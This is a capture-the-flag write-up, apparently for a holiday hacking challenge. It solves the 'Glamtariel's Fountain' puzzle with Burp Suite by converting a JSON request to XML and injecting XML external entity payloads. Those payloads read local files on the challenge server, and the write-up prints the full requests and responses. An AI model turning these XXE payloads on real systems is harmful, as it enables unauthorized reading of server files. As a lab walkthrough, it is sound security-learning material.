# Glamtariel's Fountain
Difficulty:

`https://glamtarielsfountain.com/`

Stare into Glamtariel's fountain and see if you can find the ring! What is the filename of the ring she presents you? Talk to Hal Tandybuck in the Web Ring for hints.



[https://glamtarielsfountain.com/](https://glamtarielsfountain.com/)

Burp Suite



[https://glamtarielsfountain.com/dropped](https://glamtarielsfountain.com/dropped)

[https://glamtarielsfountain.com/static/images/grinchum-supersecret_9364274.png](https://glamtarielsfountain.com/static/images/grinchum-supersecret_9364274.png)


f06eab77-7d67-4cb1-9dfe-b5d11c509a0d.xTPRjHh7IxqFSaWVXjOsP_n5LBM

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
	




Below the `Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"` section need to add 

```
Accept: application/xml
Content-Type: application/xml
X-Grinchum: IjE0MTc0ZjMzOTliNDE5M2UwZTM5ZTg0YmU4ZGZhMmI1ODBjMjRhNGUi.Y6xeoQ.dg1nAejl4FWvhmTdCqYVdsaXyAQ
```

```
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http:////glamtarielsfountain.com/static/images"> ]>
<root>
  <imgDrop>img1</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

Bold words from conversations.

I have PATH
TAMPER
TRAFFIC FLIES
TYPE
RINGLIST
APP 

Other maybe useful stuff? Silverring?

Grinchun path `https://glamtarielsfountain.com/static/images/grinchum-supersecret_9364274.png`

* * *
* * *
# Solution
Got help after watching the Youtube video by Hackerman, this was the only one I didn't figure out on my own.

Throw the URL into Burp Suite
Step through all the drag and drop of the icons until you get to the rings. 

### First request and response



```
POST /dropped HTTP/2
Host: glamtarielsfountain.com
Cookie: MiniLembanh=979f4fcb-b4de-465b-a396-39f40388c0e4.G8XEQSTTt74s9T7TDXTRiHY_U1s; GCLB="99d7e84c5564b67a"
Content-Length: 52
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Accept: application/json
Content-Type: application/json
X-Grinchum: ImRlMGM3ZmZmMjA5MjIwNTUyZjZhMWFlNWY2MjA0ZWRhOGNjNDYzZjki.Y62iww.8-C9jfGWRc7mg7s1BMcGjUuF0f8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Origin: https://glamtarielsfountain.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://glamtarielsfountain.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"imgDrop":"img1","who":"princess","reqType":"json"}
```

Change the Content-Type: `application/xml`
And Json portion to XML (used the BurpSuite Extention --> Content Type Converter)

**Change reqType to xml!**

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<root>
    <imgDrop>img1</imgDrop>
    <reqType>xml</reqType>
    <who>princess</who>
</root>
```

### Get the response - I love rings of all colours


```
{
  "appResp": "I love rings of all colors!^She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though.",
  "droppedOn": "none",
  "visit": "none"
}
```

### XXE Payload
Use the path derived from Grinchun and the hints about "APP" to get the RINGLIST
```
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:////app/static/images/ringlist.txt"> ]>
```

Don't forget to put `&xxe;` in the `<imgDrop>` tags.

Vioala you get the RINGLIST



```
{
  "appResp": "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)",
  "droppedOn": "none",
  "visit": "static/images/pholder-morethantopsupersecret63842.png,262px,100px"
}
```

Visiting the URL [https://glamtarielsfountain.com/static/images/pholder-morethantopsupersecret63842.png](https://glamtarielsfountain.com/static/images/pholder-morethantopsupersecret63842.png)



The hints are
x_phial_pholder_2022
redring.txt
bluering.txt


So we send these request to this new path....
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:////app/static/images/x_phial_pholder_2022/redring.txt"> ]>`

### Redring.txt


### Bluering.txt


```
{
  "appResp": "I love these fancy blue rings! You can see we have two of them. Not magical or anything, just really pretty.^She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though.",
  "droppedOn": "none",
  "visit": "none"
}
```

### Silverring
Thinking back to the hints and the mention of SILVERING will give it a try.

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:////app/static/images/x_phial_pholder_2022/silverring.txt"> ]>`



```
{
  "appResp": "I'd so love to add that silver ring to my collection, but what's this? Someone has defiled my red ring! Click it out of the way please!.^Can't say that looks good. Someone has been up to no good. Probably that miserable Grinchum!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px"
}
```

Yet another URL to visit [https://glamtarielsfountain.com/static/images/x_phial_pholder_2022/redring-supersupersecret928164.png](https://glamtarielsfountain.com/static/images/x_phial_pholder_2022/redring-supersupersecret928164.png)


`goldring_to_be_deleted.txt`

### Goldring_to_be_deleted.txt

Feed it the goldring :satisfied:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:////app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>
```



```
{
  "appResp": "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something.",
  "droppedOn": "none",
  "visit": "none"
}
```

**REQ** and **TYPE** hints are refering to changing the XXE payload to be in the `<reqType>` tags. Changed the imgDrop back to img1

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:////app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>
<root>
  <imgDrop>img1</imgDrop>
  <who>princess</who>
  <reqType>&xxe;</reqType>
</root>
```



There is the solution!!!!!

```
{
  "appResp": "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px"
}
```

[https://glamtarielsfountain.com/static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png](https://glamtarielsfountain.com/static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png)

**PAYDAY!!!**


